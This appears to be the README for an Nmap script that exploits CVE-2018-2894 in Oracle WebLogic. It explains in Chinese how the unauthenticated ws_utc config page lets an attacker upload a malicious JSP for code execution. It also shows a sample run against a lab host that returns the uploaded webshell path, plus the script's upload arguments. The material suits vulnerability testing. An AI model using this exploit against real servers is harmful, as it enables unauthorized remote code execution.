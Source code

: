 # CVE-2018-2894


ws_utc 为 WebLogic Web 服务测试客户端，其配置页面存在未授权访问的问题，路径为 /ws_utc/config.do

攻击者通过访问此配置页面，先更改工作目录，用有效的 WebLogic Web 路径替换存储 JKS Keystores 的文件目录，然后在上传 JKS Keystores 时上传恶意的 JSP 脚本文件。访问最终的 JSP 文件路径地址，即可做到代码执行


## Usage

```
root@kali:~# nmap -Pn 172.19.0.2 -p 7001 --script=weblogic-cve-2018-2894 -n
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-23 02:26 EDT
Nmap scan report for 172.19.0.2
Host is up (0.000055s latency).

PORT     STATE SERVICE
7001/tcp open  afs3-callback
| weblogic-cve-2018-2894: 
|_  url: /ws_utc/config/keystore/1532327177_test.jsp
MAC Address: 02:42:AC:13:00:02 (Unknown)
```

## More

* -- @args weblogic-cve-2018-2894.uri points to the file '/weblogic/'. Default /
* -- @args weblogic-cve-2018-2894.filename the name of the file to be uploaded
* -- @args weblogic-cve-2018-2894.content  file's contents
* -- Other useful arguments when using this script are:
* -- * http.useragent = String - User Agent used in HTTP requests


